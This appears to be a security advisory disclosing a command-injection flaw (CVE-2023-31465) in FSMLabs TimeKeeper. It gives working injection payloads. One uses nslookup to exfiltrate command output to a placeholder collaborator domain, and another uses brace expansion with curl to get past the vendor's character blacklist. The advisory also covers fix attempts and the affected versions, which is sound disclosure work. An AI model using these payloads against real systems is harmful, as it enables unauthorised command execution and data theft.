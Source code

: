 # CVE-2023-31465 | TimeKeeper by FSMLabs - RCE
During a PT activity, we managed to find a Remote Command Execution vulnerability in TimeKeeper and, while fixing it, we had the opportunity to modify and evolve the payload.
In the first paragraph we are going to explain the discovery and exploitation of the vulnerability, and this was performed during the time of the penetration testing, while in the second paragraph 
we will show the fix attempts, the re-exploitation and the final countermeasure.


## TimeKeeper version 2.0.17

In the image below is represented the request that is employed by TimeKeeper in order to set the source of IPs that has to be synchronized.

![req](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/f6e13bf7-2755-40f4-8d8c-09cf66116815)

During our first analysis, we used some Windows and Linux concatenation strings with the **ping** command to check a potential RCE vulnerability. 
We first discovered it in the *arg2* query parameter, with the following payload appended to the **earliest** number value:

```
||ping -c 10 127.0.0.1
```

A time delay was triggered, so we kept testing with other techniques and payloads.

After some time, we uncovered the following payload, useful for retrieving hex-encoded information (the data has been hex-encoded with *xxd* in order to avoid cutting off due to the DNS protocol):

```
||nslookup $(xxd -pu <<< $(whoami)).OASTIFY.DOMAIN||x
```

Below you can observe, respectively:
* the malicious request;

![poc1](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/1a99f5a7-939a-4bfd-aab9-f9226e0d3351)

* the burp collaborator DNS interactions with hex-data exfiltrated;

![poc2](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/265b70a5-a80c-4dea-9143-5663f9aab18b)
 
* the hex-decoded values for the **whoami** and **id** commands.

![poc3](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/61f12806-36ba-46b7-b0d0-c928e0b7275d)


## TimeKeeper version 2.0.28 (BETA)

After discovering the vulnerability, we contacted directly FSMLabs to notify about the critical vulnerability.
They thanked and asked us to conduct more tests on the BETA version to ensure that the vulnerability has been fixed in the meanwhile, as version 2.0.17 was over 2 years old at the time of testing 
(2023).

A blacklist was implemented for some characters, such as: |, &, *, $, <, >, (, ), -. The previous payload, then, could not be used anymore. However, curly brackets were not
blacklisted, so we tried with the *bash expansion* technique.

Specifically, the following payload was injected:

```
;{curl,`whoami`.[collaborator_domain]};a
```

and we were still able to conduct a remote command execution.


## Remediation

The FSMLabs has fixed the vulnerability in TimeKeeper version 2.0.28.


## Vulnerable version of TimeKeeper

As a result of our testing, versions 2.0.17 through 2.0.27 are vulnerable to RCE.


## Discovered by

Francesco Iaria

Riccardo Degli Esposti

Claudio Rimensi

Francesco Varotto
